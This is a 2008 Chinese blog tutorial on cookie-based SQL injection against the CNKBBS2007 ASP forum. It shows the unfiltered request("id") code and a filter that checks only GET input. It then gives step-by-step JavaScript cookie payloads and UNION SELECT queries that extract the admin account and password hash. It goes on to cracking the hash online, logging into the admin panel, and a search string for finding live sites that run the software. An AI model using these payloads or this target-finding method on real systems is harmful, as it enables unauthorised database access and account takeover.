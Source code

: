 ```yaml
---
title: cookies的注入方法和原理
description: 现在很多网站都采用了通用防注入程序，那么对于这种网站，我门是否就束手无策了呢？答案是否定的，因为我们可以采用cookie注入的方法，而很多通用防注入程序对这种注入方式都没有防备。在讲之前,我们还是来回顾下ASP脚本中Request对象的知识吧,上面几讲中都提到Request对象获取客户端提交数据常用的是GET和POST二种方式,同时request对象可以不通过集合来获得数据,即直接使用"request("name")"但它的效率低下,容易出错,当我们省略具体的集合名称时,ASP是按QueryString,from,cookie,servervariable,集合的顺序来搜索的,在request对象成员中集合cookies,它的意思是"读取用户系统发送的所有cookie值,我们从第二讲关于"cookies欺骗入侵和原理"中知道,cookies是保存在客户端计算机的一个文本文件,可以进行修改,这样一来,我们就可以使用Request.cookie方式来提交变量的值,从而利用系统的漏洞进行注入攻击.
date: 2008-06-01 05:21:03
category: 技术文章
tags: ['Cookies', '注入', '技术类']
post_id: 505
alias: cookies-injection-method-theory
ViewNums: 5629
---
```


现在很多网站都采用了通用防[注入](/tags/%E6%B3%A8%E5%85%A5)程序，那么对于这种网站，我门是否就束手无策了呢？答案是否定的，因为我们可以采用[cookie注入](/blog/cookie-injection-how-the)的方法，而很多通用防注入程序对这种注入方式都没有防备。

在讲之前,我们还是来回顾下[ASP](/tags/ASP)脚本中Request对象的知识吧,上面几讲中都提到Request对象获取客户端提交数据常用的是GET和POST二种方式,同时request对象可以不通过集合来获得数据,即直接使用"request("name")"但它的效率低下,容易出错,当我们省略具体的集合名称时,ASP是按QueryString,from,cookie,servervariable,集合的顺序来搜索的,在request对象成员中集合cookies,它的意思是"读取用户系统发送的所有cookie值,我们从第二讲关于"cookies欺骗入侵和原理"中知道,cookies是保存在客户端计算机的一个文本文件,可以进行修改,这样一来,我们就可以使用Request.cookie方式来提交变量的值,从而利用系统的[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)进行注入攻击.

我们首先还是来看看中网景论坛的最新版本"(CNKBBS2007)中网景论坛2007v5.0 "官方下载地址"http://www.cnetking.com/websys2.asp?id=26"发布时间是2007-06-06,打开系统的源代码后,在"user_RxMsg_detail.asp"文件中,有如下代码:

<!--＃i nclude file="opendb.asp" --> (调用opendb.asp文件)

<!--＃i nclude file="char.asp" -->

<%

Call CheckUserLogin(username)

Dim action,s,id

id=request("id") (获取客户提交的变量,并赋值给id,并没过滤,也没有指定采用那种方式提交)

if id<>"" then Call IsNum(bid) (这是程序员的出现地方,注意bid<>id)

conn.execute("update cnk_Users_RxMsg set readed=1 where id="&id) '设置已读

rs.open "select * from cnk_users_RxMsg where id="&id,conn,1,3

我们再打开"opendb.asp"文件

<%Option Explicit

Response.Buffer = true%>

<!--＃i nclude file="fzr.asp" --> (调用fzr.asp文件)

<!--＃i nclude file="cnkdata/dbname.asp" -->

<!--＃i nclude file="config.asp"-->

..................

以现它是连接数据库的文件,其中调用了fzr.asp文件,我们再打开fzr.asp文件

<%

'--------版权说明------------------

'SQL通用防注入程序

'Aseanleung

'--------定义部份------------------

Dim Fy_Post,Fy_Get,Fy_In,Fy_Inf,Fy_Xh,Fy_db,Fy_dbstr

Dim fso1,all_tree2,file1,files,filez,fs1,zruserip

If Request.QueryString<>"" Then (对Request.QueryString提交(客户采用GET方式提交)的数据进行判断,并没有指明对其它方式提交的数据进行判断)

'自定义需要过滤的字串,用 "|" 分隔

Fy_In = "'|;|%|*|and|exec|insert|select|delete|update|count|chr|mid|master|truncate|char|declare|script" (阻止了常用的SQL注入的语句)

Fy_Inf = split(Fy_In,"|")

For Each Fy_Get In Request.QueryString

For Fy_Xh=0 To Ubound(Fy_Inf)

If Instr(LCase(Request.QueryString(Fy_Get)),Fy_Inf(Fy_Xh))<>0 Then

zruserip=Request.ServerVariables("HTTP_X_FORWARDED_FOR")

If zruserip="" Then zruserip=Request.ServerVariables("REMOTE_ADDR")

Response.Write "内容含有非法字符！请不要有'或and或or等字符，请去掉这些字符再发！！<br>"

Response.Write "如是要攻击网站，系统记录了你的操作↓<br>"

Response.Write "操作ＩＰ："&zruserip&"<br>"

Response.Write "操作时间："&Now&"<br>"

Response.Write "操作页面："&Request.ServerVariables("URL")&"<br>"

Response.Write "提交方式：ＧＥＴ<br>"

Response.Write "提交参数："&Fy_Get&"<br>"

Response.Write "提交数据："&Request.QueryString(Fy_Get)

......................

很明显的看出它是一个SQL通用防注入程序文件,(以上的红字是对代码的解释)

代码看好了,我们来整理下思路:由于程序员的出错,导致了id没有被过滤就被带到SQL语句中查询,这是注入漏洞产生的原因,虽然程序引入了防注入程序,阻止了常用的SQL语句使用,但只对客户采用GET方式提交的数据进行判断,而没有对其它方式提交的数据进行判断,这样导致了客户可以使用Request.cookie方式来提交变量的值,而绕过了SQL防注入程序(总结下:cookie注入产生的条件:系统直接使用"request("name")"获取客户提交的数据,并对客户提交的变量没有过滤,而且在防注入程序中没有限制Request.cookie,现在防注入程序3.0只是对客户采用GET和POST提交方式进行了限制).

   原理讲好了,下面我们来学学coolie注入语句吧

cookies的注入语句:alert(document.cookie="id="+escape("这就是asp? id=xx后面xx代表的数值) and (这里是注入攻击代码)"));

这儿用到了javascript语言的知识,我把这语句的意思分解如下,以便大家理解:

1:"alert()"显示信息对话框的alert()方法,它生成的是一个独立的小窗口,称作对话框,用来显示一条信息和一个按钮.(我们在跨站中常用到)

2:"document.cookie"我们在处理cookie时,javascript将它保存为document对象的一个属性,其属性名称是cookie,利用这个属性,我们可以创建和读取cookie数据,在程序中可以使用:"alert(document.cookie)"调用当前页面的cookie数据项值.在我们启动浏览器打开页面后,如果存在相应的cookie,那么它被装入到document对象的cookie属性中,document.cookie属性采用name=value对应方式保存各个cookie数据项值.document(文档)对象表示在浏览器里显示的HTML(向页面输出数据),cookie属性是允许读写HTTP的cookie;字符串类型

4:escape()函数;它将字符串中所有的非字母字符转换为用字母数字表示的等价字符串,具有编码字符串的功能.一般情况下,cookie通常由服务器端的程序通过HTTP请求和响应头发送给浏览器,但是,利用javascript,可以在本地浏览器中设置cookie

格式:name=value的属性是指定cookie数据项的名称,value是该名称对应的值,它是一个字符串,也可是由一系列字符组成,name和value中不能包含分号,逗号及空白,(50"and 1=1")有分号,逗号及空白,所以我们要用到escape()函数对他们进行编码

   上面整句的意思大家都明白了吧,就是设置调用当前创建的cookie数据项值,在设置cookie时,它们首先保存在浏览器的内存中,退出浏览器时,才能被写入到硬盘中.(这就是在下面操作中为什么在退出后,再输入链接的地址原因)

最后我们来测试下,利用步骤:

1:打开在本地机子上架设的中网景论坛:注册一个用户,我们就会收到管理员发来的一条短信息,我们打开短信息的链接(注意这儿的参数id值)

2:把浏览器的URL清空,输入"alert(document.cookie="id="+escape("相应参数id值 and 1=1"));之后会弹出一个框框,

3:再次输入:http://127.0.0.1/cnkbbs5.2_ac/user_RxMsg_detail.asp?username=论坛管理员(返回正常的页面,说明我们绕过了SQL防注入程序了)

3:再输入:alert(document.cookie="id="+escape("1 and 1=2"));然后再输入:http://127.0.0.1/cnkbbs5.2_ac/user_RxMsg_detail.asp?username=论坛管理员(时间和内容都没有显示了,说明我们可以进行注入了)

4:通过查看系统数据库,得知cnk_users_RxMsg 表里有8个字段,Cnk_Admin表是存放管理员资料的,其中AdminName,AdminPassword字段分别对应的是账号和密码,我们使用联合查询语句,再输入:alert(document.cookie="id="+escape("1 and 1=2 union select 1,2,3,4,5,6,7,8 from Cnk_Admin"))然后把地址栏清空,输入http://127.0.0.1/cnkbbs5.2_ac/user_RxMsg_detail.asp,可经看到显示了数字4和5

5:再次把地址栏清空,输入:alert(document.cookie="id="+escape("1 and 1=2 union select 1,2,3,AdminName,AdminPassword,6,7,8 from Cnk_Admin")),提交后,清空地址栏,输入:http://127.0.0.1/cnkbbs5.2_ac/user_RxMsg_detail.asp?username=论坛管理员,这样我们就在页面上看到管理员的密码和账号了,

5:把得到的密码放入http://www.cmd5.com网站查询,得知管理员的明文密码是admin,在网站的首页我们就可进行登录后台了,我们也可利用关键字"Powered by CNKBBS2007 （5.2）"去网上找使用这系统的网站,(不过不是很多啊)大家去练习下手工的注入吧,可别搞在破坏哟!不过在使用这类注入时,它需要两次手动操作才能完成,这也是容易出错的地方,可要细心才行.

[Cookie注入是怎样产生的](/blog/cookie-injection-how-the)

cookie注入工具：

[wsi - 支持GET、POST、Cookie注入扫描和注入工具](/blog/wsi-get-post-cookie-injection-tool)

[Pangolin-你见过最好的SQL注入工具](/blog/pangolin-124584-zwell)

